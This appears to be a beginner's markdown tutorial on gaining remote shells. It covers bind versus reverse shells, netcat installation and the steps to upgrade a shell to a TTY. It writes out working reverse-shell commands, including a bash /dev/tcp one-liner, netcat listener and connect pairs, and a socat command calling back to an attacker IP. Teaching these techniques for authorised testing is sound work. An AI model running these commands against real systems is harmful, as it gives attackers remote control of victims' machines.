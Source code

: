 ### Shells (Hack Responsibly)

## Introduction
Gaining a shell on your attack system is the ultimate goal , this way the impact of the vulnerability can be stressed.

According to wiki "a shell is a computer program which exposes an operating system's services to a human user or other programs.". now let's think of it this way , say you want total control of a system, you want to be able to switch it on , use it's camera , transfer its file and so on. the easiest way this could be done is to have physical access to the device. Another way, is to be able to control this system in question remotely (you can stay in your office in another country and access your files and computer usage from home).
A malicious attacker with unauthorized access with unauthorized access may also be able to do .if your system is compromised , just like you they dont have to be in thesame physical location to do this.
Now most of the time this compromise happens. the attacker access and controls your computer by typing commands through this shell, which in turn takes these commands typed and execute accordingly (most of the time, sometimes it asks if you are allowed to execute these commands).
An example of this is typing "shutdown now" on your unix system and watch your computer literaly shutdown, you dont have to press any button or click any beautiful GUI for this to happen, just a coomand lets it. i think i've explained this as best as i can .[check this wikipedia for more detailed explanation](https://en.wikipedia.org/wiki/Shell_(computing))



## Executing Shell

There are two ways to access a shell (bind shell and reverse shell)
1. you connect to the computer in question (bind)
2. the computer connects to you (reverse)

**The Bind shell** is rarely used in practice, due to firewalls that restricts imbound connection . dynamic IP addresses etc . In the case of a bind shell you make a connection to the user , that means the user has to be waiting (listening ) for connection and you connect to it. for this to work you will need the IP address of the system and the port you want to make connection to . note: once the IP address changes there is no way for you to access the system unless ofcourse you find its new IP

## Using Netcat for a bind shell 
First we need to install netcat.

### 🔌 Installing Netcat (`nc`) on Android, Windows, and Linux

Netcat (often abbreviated as `nc`) is a powerful network tool used for reading from and writing to network connections using TCP or UDP.

---

### 📱 Android

#### Option 1: Using Termux (Recommended)
1. Install [**Termux**](https://f-droid.org/en/packages/com.termux/) from F-Droid.
2. Run the following commands in Termux:
   ```bash
   pkg update
   pkg install netcat
✅ Netcat will be installed as nc.

####  Option 2: Using BusyBox (Root Required)
1. Install BusyBox from Play Store or F-Droid.

2. Open a terminal emulator or ADB shell:

   ```bash
   busybox nc


### 🪟 Windows

#### Option 1: Using Nmap's Ncat
1. Download and install Nmap from https://nmap.org/download.html.

2. Use Ncat (a Netcat-compatible tool) from the command line:
   ```powershell
   ncat.exe -l -p 4444
   
### Option 2: Standalone Netcat Binary
1. Download from a trusted source like https://eternallybored.org/misc/netcat/
2. Extract and run from Command Prompt:
   ```cmd
   nc.exe -l -p 4444
   
###🐧 Linux
1. Debian/Ubuntu-based:
   ```bash
   sudo apt update
   sudo apt install netcat
2. Arch-based:
   ```bash
    sudo pacman -S gnu-netcat

3. RHEL/CentOS/Fedora:

   ```bash
   sudo dnf install nmap-ncat
#### ✅ Verify Installation
1. Run one of the following commands:
   ```bash
   nc --version
#### or
    ```bash
    ncat --version

#### ℹ️ Note: Depending on your OS and install method, the command may be nc, netcat, or ncat.

    ```vbnet
    Feel free to open an issue or PR if you encounter platform-specific differences!


  ## Using Netcat for a bind shell
     Attacker's Host: nc <IP> <port> # makes connection to remote machine (looks for machine with that IP and has that port opened and makes a connection to it)
     Remote Machine: nc -nvlp <IP> # listens for connection (waits for someone to connect to its machine through that port)
  ## Using Netcat for a reverse shell
      Attacker's Host: nc -nlvp <PORT> # The attacker waits for the host to connect to its own machine , in this case its the one listening for connection)
      Remote Machine: nc <IP> <PORT> # Remote machine has the IP address of the attacker and makes connection to it ( well the attacker has a static IP that wont be chabging anytime soon)
      Or :bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
    
 PS: Only netcat is mentioned here , there are tons of tools to make reverse connection [check payloadallthethings for reverse shell with other tools ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
     

### Shell Codes
  Describe code executed by a target program due to a vulnerability exploit and used to open a remote shell 
  

### Upgrading Simple Shells to Fully Interactive TTYs
using python

  on victim:
     
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    
    (press on your keyboard) Ctrl+Z

    (press on your keyboard) Enter

   on your local host: stty raw -echo

   on your local host:
   
      fg (you will not see your keystrokes -- trust yourself and hit Enter)

      (press on your keyboard) Enter

      (press on your keyboard) Enter

   on the victim: 
   
      export TERM=xterm

  
    
 using socat:
 on host(attacker):
 
    socat file:`tty`,raw,echo=0 tcp-listen:4444
  
 on victim :
 
    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
  
    
    
  
